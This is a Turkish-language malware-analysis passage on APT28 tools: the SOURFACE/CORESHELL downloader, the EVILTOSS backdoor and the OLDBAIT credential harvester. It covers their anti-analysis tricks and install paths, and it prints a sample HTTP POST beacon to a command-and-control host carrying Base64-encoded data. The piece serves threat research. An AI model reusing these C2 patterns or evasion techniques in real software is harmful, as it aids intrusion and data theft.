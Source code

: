 
İndirici (downloader). Örneğin, **oltalama** epostalarına ekli sahte dokümanlar açıldığında çalışır ve **C2** sunucusuna bağlanarak ikinci seviye (**second stage**) bir arka kapı indirir.

**CORESHELL**, **SOURFACE**'in güncellenmiş halidir ve kullanılmayan makine talimatları (**unused machine instructions**) aracılığıyla **tersine mühendislik (reverse engineering)** zorlaştırma taktiklerini içeriyor. Bu, **disassembly** sırasında büyük miktarda gereksiz gürültü yaratarak CORESHELL davranışının **statik** analizini engelliyor. Bunun yanında çalışma zamanı (**runtime**) kontrolleri yaparak bir analiz ortamında yürütülüp yürütülmediğini belirlemeye çalışıyor ve eğer öyleyse, yüklerini çalıştırmıyor.

**CORESHELL** görevini yapmak için iki **iş parçacığı (thread)** kullanıyor. İlki, erişilen sistemin process listesini gönderiyor. İkincisi, ikinci aşama faydalı yükleri (payload) indirip yüklüyor.

Mesajlar, gövdeleri şifrelenmiş ve **Base64** ile kodlanmış veriler içeren **HTTP POST** istekleri kullanılarak gönderiliyor. Bu işlemler için sistemdeki **Internet Explorer** kullanıcı aracısı dizesini (**user agent string**) kullanılıyor.

```
POST /check/ HTTP/1.1
User-Agent: MSIE 8.0
Host: adawareblock.com
Content-Length: 58
Cache-Control: no-cache
zXeuYq+sq2m1a5HcqyC5Zd6yrC2WNYL989WCHse9qO6c7powrOUh5KY=
```

### **EVILTOSS**

Bu arka kapı; keşif, izleme, kimlik bilgisi hırsızlığı ve kabuk kodu yürütme için, sistem erişimi elde etmek için **SOURFACE** indiricisi aracılığıyla yükleniyor.

### **OLDBAIT**

Kendisini `%ALLUSERPROFILE%\Application Data\ Microsoft\MediaPlayer\` içine `updatewindws.exe` ('o' yok!) olarak kuran bir kimlik bilgisi toplayıcı.

Şu uygulamalara erişebiliyor:

![Apps detected by CHOPSTICK](../assets/img/apt28-apps-detected-by-chopstick.jpg "Apps detected by CHOPSTICK")
